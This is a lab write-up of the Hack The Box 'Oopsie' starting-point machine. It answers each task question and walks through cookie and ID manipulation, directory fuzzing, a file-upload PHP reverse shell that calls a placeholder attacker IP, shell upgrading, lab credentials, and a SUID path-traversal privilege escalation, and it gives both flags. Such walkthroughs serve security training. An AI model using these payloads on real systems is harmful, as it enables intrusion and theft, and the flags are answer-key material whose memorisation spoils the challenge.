





## Overview
---
Part of the "starting point"  boxes on HTB, Oopsie has a set of tasks with questions that provide a framework to walk through the machine. Oopsie introduces broken access control, misconfigured SUID binaries, PATH highjacking and cookie manipulation in a very clear and concise manner. As this machine is part of the “starting point” category, many of the tasks are fundamental knowledge questions - I highly recommend researching them a bit if you do not know the answer instead of copy/pasting.

|                  |               |
| ---------------- | ------------- |
| **Release Date** | 25 Oct, 2021  |
| **Difficulty**   | Very Easy     |
| **OS**           | Linux         |
| **Created By**   | [MrR3boot](https://app.hackthebox.com/users/13531) |

---

## Tasks

---

### Task 1
---

With what kind of tool can intercept web traffic?



Proxy


---

### Task 2
---

What is the path to the directory on the webserver that returns a login page?


There are a few ways that we could go about searching through web paths, but today I'll be using OWASP's ZAP (Zed Attack Proxy). We can set it up like this:



Then we can run it and let it scan until the active scan finishes up and check the resutls. Easiest way to look through them is to order by the response code to look at 200 responses, where we can find a login url.


/cdn-cgi/login


---

### Task 3
---

What can be modified in Firefox to get access to the upload page?


If we navigate to the page that we found in the last task, we can see that there is a "Login as Guest" option, which brings us to a logged in state if we click on it:



Navigating around this a bit, we can find an account page that lists "access ID", which is interesting:



Maybe there's somewhere that the access ID is being stored client side in our browser by chance?


Cookie


---

### Task 4
---

What is the access ID of the admin user?


Now that we know where the access ID is being stored, and that it is client side, let's see if we can manipulate it. We can open up our browser tools (`Ctrl + Shift + I` on Firefox) and navigate to the `Storage` section to view cookies for this page.

Here we can double click on the value that we want to change and edit it, but with the value starting at 2233, manually trying different access IDs might be too tedious of a task. There are some ways we can work around this, but if you noticed earlier there was one more interesting part of the "account" page, in the URL: `http://10.129.152.9/cdn-cgi/login/admin.php?content=accounts&id=2`

That ID attribute is a much smaller number, what if we try changing that one first to, say, 1?




34322


---

### Task 5
---

On uploading a file, what directory does that file appear in on the server?


Now that we have the admin account access ID, we can try changing our cookies to match user "admin" and access ID "34322", then seeing if we can access the uploads page:



Great, we can try checking around for potential upload pages with a scanner like FFUF:
```bash
┌─[ice@parrot]─[~/Oopsie]
└──╼ $ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.152.9/FUZZ/ -ic

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.152.9/FUZZ/
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

icons                   [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 80ms]
themes                  [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 78ms]
uploads                 [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 75ms]
```

We very quickly see a couple "forbidden" responses to common image locations, we can easily try these out by uploading an image, e.g. `test.png` on the site and seeing if we can access it any of these locations.


uploads


---

### Task 6
---

What is the file that contains the password that is shared with the robert user?


Well, since we know that we can upload files and access them, it may be time for us to try and get a shell on the server. That should make it easier to look around for files that may contain the desired password.

We can make a quick reverse shell:
```bash
echo "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKING_IP>/1234 0>&1'\");" > shell.php
```

Then drop it on the server by uploading it , then access it at `http://10.129.152.9/uploads/shell.php`, but not before we start a quick nc session to capture it using `nc -lvnp 1234`.

And with that, we should have a shell on the server! 
```bash
www-data@oopsie:/var/www/html/uploads$ whoami
whoami
www-data
```

Running a quick `which python3` confirms that the server has python3 installed, so we can upgrade our shell with:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now we can have a look around. In `/var/www/html` there's an interesting subfolder called `/cdn-cgi` which contains a folder called `login` that has a few php files.

Checking out the source of those php files we can find the details for a user named 'robert' in `/var/www/html/cdn-cgi/login/db.php`


db.php


---

### Task 7
---

What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?



find


---

### Task 8
---

Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?


After running `find . -group bugtracker` we can see that there is an executable `./usr/bin/bugtracker`, let's check the file permissions on it to see who it runs as:
```bash
www-data@oopsie:/$ ls -l ./usr/bin/bugtracker
ls -l ./usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 ./usr/bin/bugtracker
```


root


---

### Task 9
---

What SUID stands for?



Set Owner User ID


---

### Task 10
---

What is the name of the executable being called in an insecure manner?


If we try running bugtracker, we'll unfortunately find that we are not able to - checking our groups shows that we are not in a group that can run it. However, earlier we did find credentials for another user, robert, so we can try logging in as that user to see if our luck changes.

His login credentials were in the `db.php` file:
```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

So we can use `su -l robert` and provide the password `M3g4C0rpUs3r!` to login as him, then check our groups:
```bash
robert@oopsie:~$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

Now we can give bugtracker a run:
```bash
robert@oopsie:~$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 123
123
---------------

cat: /root/reports/123: No such file or directory
```

Where we can see what command is being called insecurely (as root).


cat


---

### Submit User Flag
---
All we need to do for the user flag is to navigate to robert's home directory: `cd /home/robert` and print out the flag.


f2c74ee8db7983851ab2a96a44eb7981


---

### Submit Root Flag
---
Here we can abuse the `bugtracker` executable and the insecure running of `cat` to act as a limited for of privilege escalation. Based on our run earlier, we provide an ID for the bug and the program runs `cat /root/reports/<ID>`

So, if we want to get to a file in the `root` home directory, we can try to navigate up a file and print out the flag (presumably `root.txt`):
```bash
robert@oopsie:~$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../root.txt
../root.txt
---------------
```


af13b0bee69f8a877c3faf667f7beacf


---

## Closing Thoughts
---
I think Oopsie is a fantasic box for starting point. It has some great guidance with the tasks while also leaving options open instead of triyng to force one specific tool, but providing the guidance for specific tools that can work for the job in the hints. One small thing, task 2 mentions (in the hint) to use BurpSuite to spider the site, which unfortunately is not a feature of BurpSuite CE anymore - an old version of BurpSuite can be used for this feature (before the transition to version 2.0), but I think it would be best to update this to suggest another tool like OWASP ZAP.

Other than that, I think this box is a fantastic introduction to some common CTF concepts and provides just enough guidance to keep the user on track while also allowing for some freedom/exploration without being left completely in the dark, perfect for the starting point boxes.

---